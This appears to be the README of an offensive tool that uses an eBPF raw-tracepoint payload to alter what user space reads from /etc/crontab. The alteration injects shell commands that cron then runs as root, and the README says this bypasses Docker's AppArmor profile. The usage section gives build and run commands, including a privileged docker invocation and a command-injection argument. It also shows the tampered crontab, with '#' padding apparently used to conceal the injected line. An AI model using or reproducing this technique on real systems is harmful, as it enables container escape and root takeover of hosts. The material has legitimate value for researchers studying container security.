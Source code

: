 # obie-trice-conjob

> _"And Moby, you can get stomped by Obie"_ -Eminem

libbpf/bpf_load-based raw tracepoint eBPF privesc payload that intercepts reads
for `/etc/crontab` to inject arbitrary shell commands into the data read back
by user space. Because it uses the raw tracepoint API, it does not rely on
sysfs (`/sys/**`) and is therefore not blocked by Docker's AppArmor profile.

***Note:*** The build toolchain is a slightly modified version of the one from
[xdp-project/xdp-tutorial](https://github.com/xdp-project/xdp-tutorial).
Additionally, `common/bpf_load.{c,h}` are sourced from
[`linux/samples/bpf`](https://github.com/torvalds/linux/tree/master/samples/bpf).

## Usage

```bash
$ make
$ file conjob
conjob: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=fbefdcf7c3c9263cf6fa7d132304e2593787baa8, stripped
$ sudo docker run -it --cap-add SYS_ADMIN -v $(pwd):/tmp:ro alpine:latest sh  
/ # /tmp/conjob '( echo "# id" ; id ) > /tmp/conjob'
loaded...

```

```bash
$ cat /etc/crontab
SHELL=/bin/sh
* * * * * root ( echo "# id" ; id ) > /tmp/conjob
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
#########################
```
